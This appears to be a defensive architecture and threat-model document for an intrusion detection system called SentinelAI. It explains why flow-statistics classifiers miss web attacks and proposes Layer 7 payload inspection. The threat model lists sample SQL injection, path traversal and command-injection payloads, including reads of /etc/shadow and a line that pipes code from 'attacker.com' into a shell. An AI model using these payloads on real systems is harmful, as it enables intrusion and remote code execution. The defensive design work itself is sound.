

# SentinelAI GATE-1 Phase 5: Layer 7 Architecture and Threat Model

**Auditor / Architect**: Senior Machine Learning Security Engineer & Independent Software Auditor  
**Date**: 2026-10-16  
**Focus**: Application-Layer (Layer 7) Web Attack Detection Architecture & Threat Modeling  

---

## 1. Context and Problem Statement

Phase 4 demonstrated that while the candidate decoupled policy recovered PortScan ($0\% \to 100\%$) and DDoS ($72\% \to 99.8\%$) recall, **Web Attack recall reached only $60.90\%$**, with simulated autonomous `BLOCK` recall collapsing to **$15.60\%$**. Over $39\%$ of web attacks bypassed detection entirely into `ALLOW`.

This failure is not an algorithmic flaw in the Random Forest or Isolation Forest classifiers. It is an **inherent architectural limitation of Layer 4 transport flow features**. This document defines the Layer 7 architecture, threat model, and visibility boundaries required to achieve comprehensive web application protection.

---

## 2. Threat Modeling: Web Attack Vectors and Execution Profiles

The web attacks present in the benchmark captures (and modern enterprise threat landscapes) comprise five primary vectors:

### 2.1. Attack Mechanics and Signatures

1. **SQL Injection (SQLi)**:
   - *Mechanisms*: Tautology (`' OR '1'='1`), union queries (`UNION SELECT null, username, password FROM users`), batched statements (`; DROP TABLE`), and blind time delays (`WAITFOR DELAY '0:0:5'`).
   - *Payload Delivery*: URI query parameters (`?id=1' OR 1=1 --`), form post bodies, HTTP headers (`User-Agent`, `Referer`, `Cookie`).
2. **Cross-Site Scripting (XSS)**:
   - *Mechanisms*: Inline scripts (``), HTML event attributes (``), JavaScript URI pseudo-schemes (`javascript:void(0)`), SVG tags (`<svg onload=...>`).
   - *Payload Delivery*: Search inputs, profile fields, comment fields, reflection parameters.
3. **Path Traversal / Local File Inclusion (LFI)**:
   - *Mechanisms*: Directory backtracking (`../../../../etc/passwd`, `..\..\..\Windows\win.ini`), URL-encoded variants (`%2e%2e%2f`, `%252e%252e%252f`), null-byte injection (`file.txt%00.jpg`).
   - *Payload Delivery*: File download endpoints (`?file=../../secret.key`), template renderers.
4. **OS Command Injection**:
   - *Mechanisms*: Shell metacharacters chaining commands (`; cat /etc/shadow`, `| whoami`, `&& net user`, `$(curl attacker.com/script | sh)`), backtick expansion.
   - *Payload Delivery*: Diagnostic tools (ping forms), backup triggers, file conversion APIs.
5. **Web Brute Force / Credential Stuffing**:
   - *Mechanisms*: Automated submission of credential wordlists against login APIs (`/api/login`, `/wp-login.php`) using tools like Hydra, Burp Suite, or custom Python scripts.
   - *Payload Delivery*: Repeated POST bodies with rapid succession from single or distributed IPs.

---

## 3. Why Layer 4 Transport Models Fundamentally Fail on Web Attacks

SentinelAI's Layer 4 classifier computes 53 statistical aggregates over network flows: packet sizes, inter-arrival times, TCP flag counts, and flow durations.

### The Fundamental Feature Invariance Problem:

| Dimension | Benign Web Request (`GET /products?category=electronics`) | SQL Injection Request (`GET /products?id=1' UNION SELECT username,password FROM users --`) |
| :--- | :--- | :--- |
| **Protocol** | TCP / IPv4 | TCP / IPv4 |
| **TCP Port** | 80 or 443 | 80 or 443 |
| **Total Packets** | 4 to 8 packets (3-way handshake + GET + ACK + FIN) | 4 to 8 packets (3-way handshake + GET + ACK + FIN) |
| **Flow Duration** | 25 ms – 150 ms | 25 ms – 150 ms |
| **Fwd Packet Length Mean** | 350 – 550 bytes | 380 – 620 bytes |
| **TCP Flags** | SYN, ACK, PSH, FIN | SYN, ACK, PSH, FIN |
| **Inter-Arrival Times** | Sub-millisecond local network timings | Sub-millisecond local network timings |

### Root Cause Analysis:
1. **Statistical Overlap**: The difference between a legitimate HTTP GET and a malicious SQLi GET is less than 50 bytes of ASCII text inside the TCP payload. In the 53-dimensional statistical feature space, the malicious flow sits directly inside the dense cluster of benign web browsing flows.
2. **Confidence Degradation**: Because the feature extractor strips the actual payload, the Random Forest classifier assigns ambiguous probabilities ($p \in [0.45, 0.65]$).
3. **Threshold Suppression**: The policy engine's qualification threshold requires $p \ge 0.70$ for `MONITOR` and $p \ge 0.85$ for `BLOCK`. Consequently, ambiguous flows fall below the threshold and are classified as `ALLOW`.
4. **Conclusion**: Web attacks cannot be reliably detected via Layer 4 transport statistical flow features alone. High-confidence detection requires **Layer 7 payload inspection**.

---

## 4. Visibility Boundaries and Architectural Constraints

Implementing Layer 7 inspection introduces significant physical and architectural challenges:

### 4.1. TLS 1.3 Transport Encryption
In modern networks, $>95\%$ of web traffic is encrypted using TLS 1.2 or TLS 1.3. A passive network sniffer inspecting raw wire packets cannot see HTTP URIs, headers, or bodies.
- **Architectural Solution**: The Layer 7 pre-filter must sit at an **application termination point** (Reverse Proxy, API Gateway, or Web Application Ingress Controller, such as Envoy, NGINX, or Traefik), or inspect cleartext buffers via **host-level eBPF uprobes** on cryptographic libraries (`libssl.so`).

### 4.2. HTTP/2 and HTTP/3 Multiplexing
- In HTTP/2 and HTTP/3 (QUIC), multiple independent HTTP requests and responses are multiplexed over a single TCP or UDP connection.
- A Layer 4 flow classifier sees one single continuous connection with hundreds of packets, completely losing the boundaries of individual user requests.
- Layer 7 inspection must parse HTTP/2 frames (`HEADERS`, `DATA`) to reconstruct individual transactions before security evaluation.

### 4.3. Encoding and Evasion Techniques
Attackers routinely employ encoding techniques to bypass naive string matching:
- URL hex encoding (`%27%20%4f%52%20`)
- Double URL encoding (`%2527`)
- Unicode / UTF-8 overlong sequences
- HTML entity encoding (`&quot;`, `&#x27;`)
- Mixed case and whitespace manipulation (`uNiOn/**/sElEcT`)
- **Requirement**: The Layer 7 engine must perform **recursive canonical decoding** (URL decode $\to$ UTF-8 normalization $\to$ whitespace collapse) before applying signature matching.

---

## 5. Privacy, Redaction, and Compliance Safeguards

Inspecting application-layer payloads requires strict data governance to comply with GDPR, HIPAA, and corporate security policies:

1. **Credential Stripping**: Request fields matching `password`, `pwd`, `passphrase`, `secret`, `api_key`, `token` must be redacted (`[REDACTED]`) before persistence.
2. **Session Cookie Isolation**: HTTP headers `Cookie`, `Set-Cookie`, `Authorization` must never be logged to disk in raw form. Telemetry should store only a non-reversible cryptographic hash (`SHA-256(cookie)`) for session tracking.
3. **Data Retention Limits**: Ephemeral HTTP request inspection buffers must be discarded from memory immediately after classification. Bounded emergency audit logging must apply only to sanitized metadata.
